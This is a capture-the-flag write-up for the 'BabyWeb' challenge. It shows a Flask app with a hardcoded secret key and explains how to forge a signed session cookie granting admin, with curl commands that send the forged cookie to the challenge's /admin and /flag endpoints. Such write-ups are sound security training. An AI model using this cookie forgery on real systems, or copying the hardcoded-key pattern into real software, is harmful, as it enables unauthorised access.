```yaml
---
title: BabyWeb Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```

# 0x01

### Source code:

```python
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)
```

When we looked at the source code, we will find that this challenge has a secret_key of "baby-web" and we are able to get the flag by changing the cookie to get admin.

# 0x02
## Session

Session is to store information that is related to a user, across different requests(https://testdriven.io/blog/flask-sessions/)

In python, a secret key will be used to securely sign session cookies. This safety feature is to prevent tampering and unauthorised access to user's data

At here, we can see that the secret_key is "baby-web",
what we can do is to use a decoder tool to get the exact content of the cookie by using the secret_key

```json
{'is_admin': False}
```

By using the decoder we can see that the decoded content is '{'is_admin': False}'

What we need to do is to change it into '{'is_admin': True}', encoding it and use that as the cookie

```bash
curl -s "http://challs.nusgreyhats.org:33338/admin" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

# 0x03

After sending the request, from the response

```html
  <button hx-get="/flag" hx-swap="outerHTML" class="btn btn-secondary">Here is an even more secret button.</button>            
```

We still need to access "/flag" to get the flag

```bash
curl -s "http://challs.nusgreyhats.org:33338/flag" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

By using this, we are able to get the flag
